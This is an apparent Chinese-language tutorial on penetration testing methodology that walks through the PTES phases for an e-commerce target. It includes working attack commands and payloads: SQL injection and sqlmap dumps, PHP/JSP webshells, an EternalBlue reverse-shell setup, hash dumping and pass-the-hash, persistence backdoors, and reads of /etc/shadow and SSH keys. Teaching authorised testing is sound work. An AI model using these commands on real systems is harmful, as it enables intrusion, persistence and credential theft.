



# 渗透测试方法论

你拿到了一个渗透测试项目，目标是一个电商网站。目标是「找出所有安全问题」。这个任务听起来简单，但真正开始后你发现：无从下手，到处乱试，浪费了大量时间却一无所获。

这就是为什么需要渗透测试方法论——**一个系统化的流程能让你从「乱撞」变成「精准打击」**。本篇将详细介绍 PTES（渗透测试执行标准），帮助你建立完整的渗透测试思维框架。

## 渗透测试分类

### 按测试位置分类

| 类型 | 说明 | 特点 |
|---|---|---|
| 黑盒测试 | 完全不了解目标，像真实攻击者 | 最接近真实场景 |
| 灰盒测试 | 了解部分信息（架构、文档） | 效率更高 |
| 白盒测试 | 拥有完整信息（源码、文档） | 最全面 |

### 按测试目标分类

| 类型 | 说明 |
|---|---|
| 网络渗透 | 网络设备、服务器、数据库 |
| Web 应用渗透 | Web 漏洞（OWASP Top 10） |
| 无线渗透 | WiFi、蓝牙、NFC |
| 社会工程 | 钓鱼、电话、物理入侵 |
| 移动应用渗透 | Android、iOS App |

## PTES 渗透测试标准

### 七大阶段



## 第一阶段：事前交互

### 确定测试范围

```yaml
# 测试范围文档示例
scope:
  targets:
    - domain: example.com
    - ip_ranges:
        - 203.0.113.0/24
        - 192.168.1.0/24
    - endpoints:
        - api.example.com
        - admin.example.com
  
  out_of_scope:
    - test.example.com  # 第三方系统
    - *.backup.com      # 备份系统
  
  test_accounts:
    - role: 普通用户
      username: test@example.com
      password: Test@123456
    - role: 管理员
      username: admin@example.com
      password: Admin@123456
  
  restrictions:
    - 禁止使用 DoS 攻击
    - 禁止社工钓鱼
    - 仅工作日 9:00-18:00 测试
```

### 签订合同和免责协议

```markdown
# 渗透测试协议要点
1. 测试时间窗口
2. 应急联系人（7x24 小时）
3. 免责条款（测试造成的损失责任）
4. 保密条款（发现漏洞的处理）
5. 支付条款
```

## 第二阶段：情报收集

### 被动信息收集

不直接接触目标，利用公开资源收集信息。

```bash
# 域名信息收集
whois example.com
dig example.com ANY
dig @8.8.8.8 example.com MX

# 子域名收集
amass enum -passive -d example.com
sublist3r -d example.com -o subdomains.txt
findomain -t example.com

# Google Dorking
site:example.com filetype:pdf
site:example.com "username" "password"
site:example.com inurl:admin
site:example.com intitle:"登录" OR intitle:"后台"

# 历史漏洞信息
searchsploit example.com
```

### 主动信息收集

直接探测目标，收集端口、服务、版本信息。

```bash
# Nmap 端口扫描
# 快速扫描
nmap -F target.example.com

# 全端口扫描
nmap -p- -T4 target.example.com

# 服务版本检测
nmap -sV -sC target.example.com

# 操作系统检测
nmap -O target.example.com

# 综合扫描
nmap -A -T4 -p- target.example.com -oA full_scan

# 常见扫描脚本
nmap --script=vuln target.example.com
nmap --script=default,safe target.example.com
```

### 指纹识别

```bash
# Wappalyzer 浏览器插件
# 或使用命令行工具
whatweb target.example.com
wappalyzer-cli https://target.example.com

# 端口识别
nmap -sV target.example.com

# 示例输出
# PORT    STATE SERVICE  VERSION
# 22/tcp  open  ssh      OpenSSH 7.4
# 80/tcp  open  http     Apache httpd 2.4.6
# 443/tcp open  ssl/http  Apache httpd 2.4.6
```

### 社工信息收集

```bash
# LinkedIn 收集员工信息
# 邮箱格式猜测
# 常见模式:
# - firstname.lastname@company.com
# - firstinitiallastname@company.com
# - firstname.lastnameyear@company.com

# TheHarvester 收集邮箱和子域名
theHarvester -d example.com -b google,bing,linkedin

# 社会关系图谱
maltego
```

## 第三阶段：威胁建模

### 攻击树



### 高价值目标识别

| 资产 | 攻击价值 | 典型漏洞 |
|---|---|---|
| 域控制器 | 极高 | MS14-068, Kerberoasting |
| 数据库 | 高 | SQL 注入, 弱口令 |
| Web 管理后台 | 高 | 弱口令, 认证绕过 |
| API 接口 | 中高 | API 越权, 注入 |

## 第四阶段：漏洞分析

### Web 漏洞扫描

```bash
# SQLMap 注入检测
sqlmap -u "http://target.com/product?id=1" --batch
sqlmap -u "http://target.com/product?id=1" --dbs
sqlmap -u "http://target.com/product?id=1" -D dbname --tables
sqlmap -u "http://target.com/product?id=1" -D dbname -T users --dump

# Nikto Web 扫描
nikto -h target.example.com
nikto -h target.example.com -o nikto_report.html

# dirb 目录扫描
dirb http://target.example.com
dirb http://target.example.com /usr/share/wordlists/dirb/common.txt

# OWASP ZAP
zaproxy -cmd -quickurl http://target.example.com -quickout zap_report.xml
```

### 漏洞利用框架

```bash
# Metasploit
msfconsole

# 搜索漏洞模块
search type:exploit name:smb

# 使用模块
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.example.com
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST my_ip
set LPORT 4444
exploit

# 获取 meterpreter shell 后
# 信息收集
sysinfo
getuid
ipconfig
# 横向移动
run post/windows/gather/enum_shares
run post/windows/gather/hashdump
```

## 第五阶段：渗透利用

### Web 渗透典型路径



### 常见 Web 漏洞利用

#### SQL 注入

```bash
# 确认注入点
' OR '1'='1

# 获取数据库版本
' UNION SELECT @@version --

# 获取表名
' UNION SELECT table_name FROM information_schema.tables --

# 获取列名
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --

# 获取数据
' UNION SELECT username,password FROM users --
```

#### 文件上传

```bash
# 上传 Webshell
# PHP
<?php system($_GET['cmd']); ?>

# JSP
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

# Python (flask)
import os
os.system(request.args.get('cmd'))
```

### 权限提升

#### Linux 提权检查

```bash
# 信息收集
uname -a
cat /etc/issue
cat /etc/passwd
sudo -l
cat /etc/crontab

# 漏洞检测
linpeas.sh
linenum.sh
linux-exploit-suggester.sh

# 常见提权路径
# 1. SUID 提权
find / -perm -u=s -type f 2>/dev/null
# 2. sudo 提权
sudo -l
# 3. 内核漏洞
searchsploit "Linux kernel"
```

#### Windows 提权检查

```powershell
# 基础信息
systeminfo
whoami /all
net user
net localgroup administrators

# 补丁检测
wmic qfe get Caption,Description,HotFixID,InstalledOn

# 提权脚本
PowerUp.ps1
WinPEAS.exe

# 常用提权漏洞
# MS16-032, MS15-051, CVE-2019-1833
```

## 第六阶段：后渗透利用

### 持久化

#### Linux

```bash
# SSH Key 后门
mkdir ~/.ssh
chmod 700 ~/.ssh
echo "ssh-rsa AAAAB3..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Crontab 持久化
(crontab -l; echo "*/5 * * * * /tmp/.hidden") | crontab -

# systemd 服务
cat > /etc/systemd/system/malicious.service <<EOF
[Unit]
Description=System Service

[Service]
ExecStart=/tmp/.hidden
Restart=always

[Install]
WantedBy=multi-user.target
EOF
systemctl enable malicious
```

#### Windows

```powershell
# 注册表 Run 键
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Update" /t REG_SZ /d "C:\temp\malware.exe"

# 计划任务
schtasks /create /tn "Update" /tr "C:\temp\malware.exe" /sc hourly

# WMI 持久化
$filter = Set-WMIObject -Class __EventFilter -Namespace "root\subscription" -Arguments @{Name="Update"; EventNameSpace="root\cimv2"; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour=12"}
$consumer = Set-WMIObject -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{Name="Update"; CommandLineTemplate="C:\temp\malware.exe"}
```

### 横向移动

```bash
# Pass the Hash
# 使用已获取的 NTLM Hash 横向移动
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:NTLMHASH' //target cmd

# 远程执行
psexec.py 'domain/user:password@target'
smbexec.py 'domain/user:password@target'

# 凭证传递
# 导出凭证
sekurlsa::ekeys
# 使用凭证
sekurlsa::pth /user:admin /domain:domain /ntlm:hash /run:cmd
```

### 数据窃取

```bash
# 敏感文件收集
find / -name "*.txt" -o -name "*.db" -o -name "*.sql" -o -name "*.conf" 2>/dev/null
cat /etc/shadow
cat ~/.ssh/id_rsa
find / -name "*.pem" -o -name "*.key" 2>/dev/null

# 凭证收集
cat /etc/passwd
cat /etc/shadow
cat ~/.ssh/authorized_keys
cat ~/.bash_history
```

## 第七阶段：报告撰写

### 报告结构

```markdown
# 渗透测试报告

## 1. 执行摘要
## 2. 测试范围
## 3. 测试方法
## 4. 发现的高危漏洞
   - 漏洞 1：SQL 注入
   - 漏洞 2：敏感信息泄露
## 5. 发现的中危漏洞
## 6. 发现的低危漏洞
## 7. 风险评级
## 8. 修复建议
## 9. 附录
```

### CVSS 评分

| 等级 | 分值范围 | 说明 |
|---|---|---|
| 危急 (Critical) | 9.0-10.0 | 远程代码执行 |
| 高危 (High) | 7.0-8.9 | 权限获取 |
| 中危 (Medium) | 4.0-6.9 | 信息泄露 |
| 低危 (Low) | 0.1-3.9 | 有限影响 |
| 无危 (None) | 0.0 | 无实际风险 |

## 面试追问方向

- 渗透测试和漏洞扫描的区别？
- 信息收集阶段收集哪些信息？
- 如何检测反弹 Shell？
- 权限提升的常见手法？
- 横向移动的原理？
- 渗透测试报告应该包含哪些内容？

> 渗透测试不只是找漏洞，更是一种系统化的思维方式。方法论比工具更重要。
